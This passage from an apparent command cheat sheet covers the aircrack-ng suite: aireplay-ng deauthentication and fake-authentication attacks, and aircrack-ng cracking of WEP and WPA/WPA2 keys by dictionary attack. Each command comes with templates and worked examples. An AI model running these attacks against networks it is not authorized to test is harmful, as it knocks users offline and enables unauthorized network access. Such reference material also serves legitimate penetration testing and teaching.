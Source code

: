    - **Explanation:**
     - `-w capture` specifies the prefix for the output files.
     - `--bssid` filters to capture packets from a specific AP.
     - `-c` specifies the channel to capture on.

3. **`aireplay-ng`** - Inject frames into a wireless network.

   - **Deauthenticate a Client:**
     - **Description:** Send deauthentication packets to a client or AP.
     - **Command:**
       ```bash
       aireplay-ng --deauth [count] -a [AP_MAC] -c [client_MAC] [monitor_interface]
       ```
     - **Example:**
       ```bash
       aireplay-ng --deauth 10 -a 00:11:22:33:44:55 -c 66:77:88:99:AA:BB wlan0mon
       ```

   - **Fake Authentication:**
     - **Description:** Attempt to authenticate to an AP.
     - **Command:**
       ```bash
       aireplay-ng --fakeauth [count] -a [AP_MAC] -h [client_MAC] [monitor_interface]
       ```
     - **Example:**
       ```bash
       aireplay-ng --fakeauth 0 -a 00:11:22:33:44:55 -h 66:77:88:99:AA:BB wlan0mon
       ```

4. **`aircrack-ng`** - Crack WEP and WPA/WPA2 keys.

   - **Crack WEP Key:**
     - **Description:** Crack WEP keys from captured packets.
     - **Command:**
       ```bash
       aircrack-ng -b [AP_MAC] [capture_file]
       ```
     - **Example:**
       ```bash
       aircrack-ng -b 00:11:22:33:44:55 capture-01.cap
       ```

   - **Crack WPA/WPA2 Key:**
     - **Description:** Crack WPA/WPA2 keys using a dictionary attack.
     - **Command:**
       ```bash
       aircrack-ng -w [wordlist] -b [AP_MAC] [capture_file]
       ```
     - **Example:**
       ```bash
       aircrack-ng -w passwords.txt -b 00:11:22:33:44:55 capture-01.cap
       ```

   - **Explanation:**
     - `-w` specifies the wordlist to use for cracking WPA/WPA2.
